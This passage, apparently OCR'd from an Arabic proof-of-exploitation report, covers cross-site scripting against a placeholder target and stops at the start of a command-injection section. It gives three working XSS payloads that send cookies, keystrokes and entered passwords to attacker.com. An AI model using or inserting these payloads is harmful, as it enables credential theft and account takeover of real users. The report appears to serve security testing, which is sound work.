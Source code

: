 
### ٢. اثبات استغلال ثغرات الحقن المتقاطع (Cross-Site Scripting - XSS)

#### وصف الثغرة
ثغرة XSS تسمح للمهاجم بتنفيذ أكواد JavaScript ضارة في متصفح الضحية.

#### اثبات الاستغلال

**الهدف:** `http://vulnerable-site.com/search?q=test`

**أكواد الاستغلال:**

١. **سرقة الكوكيز (Cookie Stealing):**
```javascript
<script>
    var xhr = new XMLHttpRequest();
    xhr.open('GET', 'http://attacker.com/steal.php?cookie=' + document.cookie, true);
    xhr.send();
</script>
```
**النتيجة:** تم سرقة كوكيز المستخدم وإرسالها إلى الخادم الخاص بالمهاجم

٢. **تسجيل المفاتيح (Keylogger):**
```javascript
<script>
    document.addEventListener('keydown', function(e) {
        fetch('http://attacker.com/keylog?key=' + e.key + '&url=' + window.location.href);
    });
</script>
```
**النتيجة:** تم تسجيل جميع ضغطات المفاتيح للمستخدم

٣. **سرقة بيانات تسجيل الدخول:**
```javascript
<script>
    document.querySelectorAll('input[type="password"]').forEach(function(input) {
        input.addEventListener('blur', function() {
            fetch('http://attacker.com/creds?password=' + input.value);
        });
    });
</script>
```
**النتيجة:** تم سرقة كلمات المرور التي يدخلها المستخدم

**مستوى الخطورة:** مرتفع (High)  
**التأثير:** سرقة بيانات الاعتماد، تسجيل المفاتيح، الاستيلاء على الحساب

---

### ٣. اثبات استغلال ثغرات الحقن بالأوامر (Command Injection)

#### وصف الثغرة
ثغرة Command Injection تسمح للمهاجم بتنفيذ أوامر نظام تشغيل غير مصرح بها.
